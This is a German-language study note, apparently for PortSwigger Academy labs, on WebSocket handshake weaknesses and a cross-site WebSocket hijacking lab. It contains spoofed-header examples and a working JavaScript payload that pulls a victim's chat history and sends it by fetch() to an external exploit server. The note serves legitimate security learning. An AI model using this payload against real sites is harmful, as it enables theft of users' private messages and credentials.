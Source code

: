 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Manipulation von WebSocket Traffic (mit Burp Suite)

## Allgemein

Handshakes bestehen zwar aus standardisierten Protokollen, aber weil oft eigene Logik für zB App Anwendungen angefügt werden können dadurch diverse Schwachstellen entstehen.

## Typische Schwachstellen beim Handshake

1. **Blindes Vertrauen in HTTP-Header**
    - Beispiel: Server verlässt sich auf `X-Forwarded-For`, um die Client-IP zu bestimmen.
    - Angreifer kann im Handshake einfach `X-Forwarded-For: 127.0.0.1` setzen → Server denkt, die Anfrage kommt von `localhost`.
    - → Zugriff auf interne Admin-Funktionen.
        
2. **Fehler bei Session Handling**
    - Der Server koppelt die **Session** für den WebSocket an die Cookies/Token aus dem Handshake.
    - Wenn du im Burp den Cookie manipulierst, kannst du evtl. in eine fremde Session springen.
    - Oder: Session wird nicht erneuert, obwohl Tokens längst abgelaufen sein müssten.
        
3. **Benutzerdefinierte Header**
    - Manche Anwendungen fügen zusätzliche Header ins Handshake ein, z. B.:
        `X-Auth-Token: abc123 X-Role: user`
        
    - Wenn du die manipulierst (`X-Role: admin`), und der Server vertraut darauf → 💥 Privilege Escalation.

## Lab: Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.
To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.


1. Schauen wo Websocket verbindungen aufgebaut werden -> Live Chat
	- Abchecken wie der Live-Chat kommuniziert -> In Burp sehen wir in der WebSocket Historie, dass der alte Chat gespeichert wird über die Session und mit dem Befehl "READY" wird dieser geladen
2. Handshake prüfen (GET /chat) -> Hat kein CSRF Token
3. Exploit vorbereiten und auf externen Server laden und an Victim schicken

```js
<script>
    var ws = new WebSocket
    ('wss://0adb005c03827d38813f897b001100aa.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch
        ('https://exploit-0a9000ca03697d8a810088d101db00a1.exploit-server.net/exploit message='
        + btoa(event.data));
    };
</script>
```

4. Victim hat Session laufen, drückt auf den Link und die gesamte Chat-Historie wird gefetched und an den externen Server geschickt
5. Passwort im Chat -> Leak